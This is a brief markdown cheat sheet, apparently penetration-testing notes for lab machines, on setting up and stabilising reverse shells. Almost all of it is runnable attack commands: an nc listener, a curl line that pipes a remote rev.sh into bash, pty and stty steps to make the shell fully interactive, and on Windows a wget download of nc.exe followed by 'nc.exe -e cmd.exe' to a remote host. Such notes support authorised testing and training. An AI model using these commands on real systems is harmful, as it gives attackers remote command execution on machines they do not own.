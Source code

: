 ## Linux
run server and expose rev.sh as file:
```
python3 -m http.server 80
```

on local machine call:
```
nc -lnvp 1337
```

on remote machine call:
```
curl 10.10.14.106/rev.sh|bash
```

- upgrade shell to bash:
```
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

- then to make if fully interactive:
- We press `CTRL^Z` to suspend the shell momentaneously and execute the command below
```bash
stty raw -echo; fg
```
We won't see any output, but we can type reset and specify xterm as the terminal type
```bash
[1]  + continued  nc -nlvp 4444
                              reset
reset: unknown terminal type unknown
Terminal type? xterm
```
Command above will return us to the remote machine's shell. Now we need to make sure that the following variables are set as following:
```bash
export TERM=xterm
export SHELL=bash
```
change size:
```bash
# on your system
stty size
# on the reverse shell
stty rows x columns y
```
see also: https://gist.github.com/oscar-rk/f27464d7ab0c1fac4adf383b8a3527d3

## Windows
get nc.exe:
```bash
sudo apt install windows-binaries
```

run server and expose rev.sh as file:
```bash
python3 -m http.server 80
```

on local machine call:
```bash
nc -lnvp 1337
```

on remote machine in a directory where allowed to write:
```bash
wget http://10.10.14.9/nc.exe -outfile nc64.exe
.\nc.exe -e cmd.exe 10.10.14.9 1337
```
